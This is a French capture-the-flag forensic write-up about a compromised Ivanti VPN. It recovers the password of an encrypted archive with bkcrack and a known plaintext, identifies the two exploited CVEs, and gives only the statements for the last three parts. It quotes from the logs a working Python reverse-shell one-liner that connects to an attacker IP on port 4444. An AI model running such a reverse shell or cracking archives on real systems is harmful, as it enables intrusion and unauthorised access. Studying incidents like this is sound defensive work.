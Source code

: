 # Horreur, malheur

## Enoncé 
Vous venez d'être embauché en tant que Responsable de la Sécurité des Systèmes d'Information (RSSI) d'une entreprise stratégique.

En arrivant à votre bureau le premier jour, vous vous rendez compte que votre prédécesseur vous a laissé une clé USB avec une note dessus : `VPN compromis (intégrité). Version 22.3R1 b1647.`

Note : La première partie (Archive chiffrée) débloque les autres parties, à l'exception de la seconde partie (Accès initial) qui peut être traitée indépendamment. Nous vous recommandons de traiter les parties dans l'ordre.

## Partie 1/5
> Sur la clé USB, vous trouvez deux fichiers : une archive chiffrée et les journaux de l'équipement. Vous commencez par lister le contenu de l'archive, dont vous ne connaissez pas le mot de passe. Vous gardez en tête un article que vous avez lu : il paraît que les paquets installés sur l'équipement ne sont pas à jour...

> Le flag est le mot de passe de l'archive.

Pour commencer, listons le contenu de l'archive chiffrée avec `7z l archive.encrypted` :
```
   Date      Time    Attr         Size   Compressed  Name
------------------- ----- ------------ ------------  ------------------------
2024-03-15 15:58:46 .....        64697        64714  tmp/temp-scanner-archive-20240315-065846.tgz
2022-12-05 17:06:09 .....          194          120  home/VERSION
2024-03-15 15:32:38 .....           33           44  data/flag.txt
------------------- ----- ------------ ------------  ------------------------
2024-03-15 15:58:46              64924        64878  3 files
```

Au vu de l'énoncé, la piste la plus probable semble être une forme de *known plaintext attack*. Par élimination, nous devons donc entrer en possession du fichier `home/VERSION`. Pour ce faire plusieurs solutions :
- Tenter d'obtenir une version d'évaluation du serveur VPN de Ivanti (watch me galérer à travers leur formulaire).
- Faire un google dork intelligent sur `"home/VERSION" ivanti` et tomber sur https://www.assetnote.io/resources/research/high-signal-detection-and-exploitation-of-ivantis-pulse-connect-secure-auth-bypass-rce.

Le site nous révèle le contenu du fichier en guise de POC de la RCE, parfait.
```bash
export DSREL_MAJOR=22
export DSREL_MINOR=3
export DSREL_MAINT=1
export DSREL_DATAVER=4802
export DSREL_PRODUCT=ssl-vpn
export DSREL_DEPS=ive
export DSREL_BUILDNUM=1647
export DSREL_COMMENT="R1"
```

En ajoutant un `\n` à la fin du fichier, on obtient bien une taille de 33 bytes, comme le fichier original.

Il faut maintenant mettre en place l'attaque, à l'aide de l'outil [bkcrack](https://github.com/kimci86/bkcrack). En suivant les instructions, on obtient la commande suivante :
```bash
$ ./bkcrack -C ../archive.encrypted -c "home/VERSION" -P ../VERSION.zip -p "VERSION"
[...]
[19:29:46] Attack on 83134 Z values at index 6
Keys: 6ed5a98a a1bb2e0e c9172a2f
[...]
```

Il suffit maintenant de changer le mot de passe de l'archive : 
```bash
$ ./bkcrack -C ../archive.encrypted -k 6ed5a98a a1bb2e0e c9172a2f -U unlocked.zip 123
```

Enfin, extraire l'archive avec le mot de passe `123` et afficher le flag.

## Partie 2/5
> Sur la clé USB, vous trouvez deux fichiers : une archive chiffrée et les journaux de l'équipement. Vous focalisez maintenant votre attention sur les journaux. L'équipement étant compromis, vous devez retrouver la vulnérabilité utilisée par l'attaquant ainsi que l'adresse IP de ce dernier.

> Le flag est au format : FCSC{CVE-XXXX-XXXXX:\<adresse_IP\>}.

Pour commencer, une simple recherche Google de la version donnée en énoncé nous apprend que le VPN étudié est celui d'Ivanti. Cette version spécifique est vulnérable à deux CVE : CVE-2023-46805 (Auth. Bypass) et CVE-2024-21887 (RCE) (cf. https://www.assetnote.io/resources/research/high-signal-detection-and-exploitation-of-ivantis-pulse-connect-secure-auth-bypass-rce). 

Concernant l'IP utilisée par l'attaquant, il suffit de fouiller un peu dans les logs fournis pour retrouver une commande de reverse-shell python dans le fichier `nodemonlog.old` :
```bash
python -c import socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("20.13.3.0",4444));subprocess.call(["/bin/sh","-i"],stdin=s.fileno(),stdout=s.fileno(),stderr=s.fileno())
```
On en extrait facilement l'IP `20.13.3.0`.

Il suffit donc de composer les deux possibilités de flag à partir de ces infos.

## Partie 3/5
> Vous avez réussi à déchiffrer l'archive. Il semblerait qu'il y ait dans cette archive une autre archive, qui contient le résultat du script de vérification d'intégrité de l'équipement.

> À l'aide de cette dernière archive et des journaux, vous cherchez maintenant les traces d'une persistance déposée et utilisée par l'attaquant.
## Partie 4/5
> Vous remarquez qu'une fonctionnalité built-in de votre équipement ne fonctionne plus et vous vous demandez si l'attaquant n'a pas utilisé la première persistance pour en installer une seconde, moins "visible"...

> Vous cherchez les caractéristiques de cette seconde persistance : protocole utilisé, port utilisé, chemin vers le fichier de configuration qui a été modifié, chemin vers le fichier qui a été modifié afin d'établir la persistance.

> Le flag est au format : FCSC{\<protocole\>:\<port\>:\<chemin_absolu\>:\<chemin_absolu\>}.
## Partie 5/5
> Vous avez presque fini votre analyse ! Il ne vous reste plus qu'à qualifier l'adresse IP présente dans la dernière commande utilisée par l'attaquant.

> Vous devez déterminer à quel groupe d'attaquant appartient cette adresse IP ainsi que l'interface de gestion légitime qui était exposée sur cette adresse IP au moment de l'attaque.

> Le flag est au format : FCSC{\<UNCXXXX\>:\<nom du service\>}.

> Remarque : Il s'agit d'une véritable adresse IP malveillante, n’interagissez pas directement avec cette adresse IP.
